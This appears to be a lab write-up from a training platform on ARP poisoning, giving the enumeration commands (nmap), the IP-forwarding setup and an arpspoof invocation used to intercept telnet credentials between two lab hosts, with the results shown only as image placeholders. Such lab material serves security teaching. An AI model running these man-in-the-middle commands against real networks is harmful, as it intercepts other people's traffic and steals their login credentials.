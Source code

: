 # 🔬ARP Poisoning

## Lab 3 - ARP Poisoning <a href="#lab-3-arp-poisoning" id="lab-3-arp-poisoning"></a>

> 🔬 _INE Platform Lab_
>
> * **ARP Poisoning** attack to a `telnet` server
>   * the client machine authenticates with the `telnet` server every 30sec
> * Find the `telnet` login credentials
> * Tools: **`arpspoof`** & **`Wireshark`**

## Enumeration

```bash
ip a
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sn 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### ARP Poisoining

* Configure the Kali instance to forward IP packets:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

* Perform the ARP poisoning attack

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36   
```

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

```bash
telnet 10.100.13.36
```

<figure><img src="../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>







